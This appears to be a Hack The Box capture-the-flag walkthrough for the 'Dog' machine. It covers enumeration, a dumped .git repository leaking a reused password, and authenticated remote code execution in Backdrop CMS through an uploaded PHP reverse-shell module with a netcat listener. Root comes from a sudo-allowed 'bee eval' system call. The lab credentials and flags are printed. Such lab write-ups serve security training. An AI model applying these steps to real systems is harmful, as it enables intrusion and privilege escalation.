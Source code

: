 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```

Going over all these there is not much interesting to be found.

I use `feroxbuster` to look for interesting endpoints:

```

```


Let's say we discover:
    /core
    /modules
    /files
    /settings.php
    /robots.txt
    /index.php

## Dump Git Repo

Dump the `.git` directory using `gitdumper.sh`:
```
gitdumper.sh http://dog.htb/.git/ dog-git
cd dog-git
```

```
grep -R "@dog.htb" *                                           
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:root <dog@dog.htb>
Desktop/shared vault/kali-vault/publish/HTB boxes/Dog.md:tiffany <tiffany@dog.htb>
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:author root <dog@dog.htb> 1738963331 +0000
GitTools/Extractor/git-ext/0-8204779c764abd4c9d8d95038b6d22b6a7515afa/commit-meta.txt:committer root <dog@dog.htb> 1738963331 +0000
GitTools/Dumper/git-dump/.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
GitTools/Dumper/git-dump/.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000        commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases

```

## Extract Credentials

Search for database credentials:
```
grep -r "mysql://" .
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

So, creds are:

- **User**: `root`
- **Password**: `BackDropJ2024DS2024`

Which does not work :sad:

```
root <dog@dog.htb>
tiffany <tiffany@dog.htb>
```
Try logging in at:
http://dog.htb/?q=user/login
Using:
```
Username: tiffany
Password: BackDropJ2024DS2024
```
**Success** — logged in as Tiffany.

## Authenticated RCE via Module Upload

Backdrop CMS v1.27.1 is vulnerable to **RCE via malicious module upload**.
### Prepare payload:

Make a folder named `shell/` with two files:
shell.info
```
type = module
name = Shell
description = Reverse shell
core = 1.x
package = Custom
version = 1.0
```

cd files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/
#### `shell.php`:

Insert a PHP reverse shell payload (e.g., from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
Then archive the folder:
```
tar -czf shell.tar.gz shell/
```

## Upload Module & Trigger Shell

Go to:
http://dog.htb/?q=admin/modules/install
- Upload `shell.tar.gz`
- Enable the module if required
- Trigger shell at:
http://dog.htb/modules/shell/shell.php
Meanwhile, on your attacker machine:
```
nc -lvnp 1234
```

Reverse shell caught as **`**www-data**`
In your reverse shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ls /home
johncusack

su johncusack
Password: BackDropJ2024DS2024

cat ~/user.txt
6f57eee316d57147f467455026103ed7
```

Check `sudo` access:
You’ll see:
```
(ALL) NOPASSWD: /usr/local/bin/bee --root=/var/www/html *
```

This lets you run the `bee` CLI (Backdrop’s tool) with root privileges.
### Exploit with system():
```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

cat /root/root.txt > /tmp/f
cat /tmp/f
b47fde5773706a20f456f96b3f51172d
```
